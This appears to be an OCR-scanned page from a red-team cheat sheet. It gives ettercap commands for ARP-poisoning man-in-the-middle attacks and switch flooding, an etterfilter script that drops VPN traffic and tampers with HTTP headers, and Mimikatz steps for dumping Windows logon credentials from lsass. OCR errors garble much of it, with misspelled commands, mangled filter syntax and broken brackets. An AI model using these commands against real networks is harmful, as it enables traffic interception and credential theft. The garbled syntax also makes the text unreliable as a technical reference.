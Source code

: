 ## Ettercap software

### Main-In-Middle attack using filters

```text
ettercap.exe -I iface -M arp -Tq -F file.ef MACs / IPs / Ports
MACs / IPs / Ports
#i.e.: // 80,443 // = any MAC, any IP, ports 80,443
```

### Main-In-Middle attack on subnet with functional fitters

```text
ettercap -T -M arp -F filter // //
```

### Switch flood attack

```text
ettercap -TP rand flood
```

## Ettercap filters

### Compile ettercap filters


```text
etterfilter filter.filter -o out.ef
```

### Example filter - remove vpn traffic and decrypt http traffic

```text
if lip.proto == UDP && udp.dst == 500) I
     drop();
     kill(); }
if I ip.src == 'ip' ) (
     if (tcp.dst == 80) (
         if (search(DATA.data, "Accept-Encoding")) (
             replace("Accept-Encoding","Accept-Rubbish!");
             msg("Replaced Encoding\n");
         }
     }
}
```

### Mimikatz command

```text
1. Upload mimikatz.exe and sekurlsa.dll to target
2. execute mirnikatz
3. mimikatz# privilege: :debug
4. mimikatz# injeet::proeess lsass.exe securlsa.dll
5. mimikatz# @getLogonPasswords
6. securlsa::minidump /users/redteam/Desktop/lsass.DMP
7. securlsa::LogonPasswords
```
